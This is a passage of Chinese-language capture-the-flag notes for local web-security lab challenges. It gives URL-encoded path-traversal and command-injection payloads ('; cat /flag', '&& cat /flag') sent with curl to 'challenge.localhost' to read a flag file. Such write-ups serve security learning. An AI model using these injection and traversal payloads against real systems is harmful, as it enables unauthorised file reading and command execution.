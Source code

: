 循环。

---

我在discord群组上寻找相关的内容，就是找答案。

果真就发现了。

我们的文件目录结构如下图所示：

多出来一些东西：

![image-20241101120756275](.\2 Web Security.assets\image-20241101120756275.png)

所以我们可以利用这个多出来的目录，进行绕过`./`。

---



```bash
$ curl -v challenge.localhost:80/fortunes%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fflag
```



# 3-cmdi-1

思路很简单

实现如下即可。使用url编码

```
ls -l  ; cat /flag
```

八仙过海各显神通，各有各的写法。

## exp

```
$ curl -v http://challenge.localhost:80/?directory=%20%3B%20cat%20%2Fflag
```

# 4-cmdi-2

## 描述

题目不允许使用;了。那就使用&&号码。

对如下内容url编码

```
/challenge && cat /flag
```

结果：

